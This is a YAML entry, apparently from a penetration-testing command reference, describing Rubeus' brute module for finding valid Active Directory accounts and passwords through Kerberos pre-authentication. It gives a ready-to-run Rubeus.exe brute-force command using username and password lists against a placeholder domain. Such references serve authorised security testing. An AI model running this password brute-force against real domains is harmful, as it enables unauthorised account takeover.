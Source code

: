 ```yaml
---
description: |
  Rubeus' `brute` module bruteforces and enumerates valid Active Directory accounts through Kerberos Pre-Authentication. The following command will attempt to brute force valid username and passwords logins given a list of usernames and a list of passwords.

  Command Reference:

  	Domain: test.local

  	Username List: usernames.txt

  	Password List: passwords.txt

  	Output File: found_passwords.txt
command: |
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
items:
  - No_Creds
services:
  - Kerberos
OS:
  - Windows
phases:
  - Enumeration
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#brute
---
```

